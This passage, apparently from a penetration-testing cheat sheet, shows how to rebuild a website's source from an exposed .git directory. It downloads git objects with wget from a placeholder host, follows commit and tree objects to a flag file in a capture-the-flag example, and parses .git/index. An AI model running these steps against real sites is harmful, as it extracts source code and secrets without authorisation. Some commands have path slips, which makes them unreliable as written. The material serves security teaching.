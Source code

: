     # download the file
    wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
    mkdir .git/object/26
    mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

    # display the content of the file
    git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
        tree 323240a3983045cdc0dec2e88c1358e7998f2e39
        parent 15ca375e54f056a576905b41a417b413c57df6eb
        author Michael <michael@easyctf.com> 1489390329 +0000
        committer Michael <michael@easyctf.com> 1489390329 +0000
        Initial.
    ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```
5. Read the data (flag.txt)
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
    mkdir .git/object/cb
    mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
    git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
    ```

### Recovering the content of .git/index

Use the git index file parser, using python3 https://pypi.python.org/pypi/gin

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash for each files listed in the index, allowing us to re-use the previous method on the file.

```powershell
$ gin .git/index | egrep -e "name|sha1" 
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```
 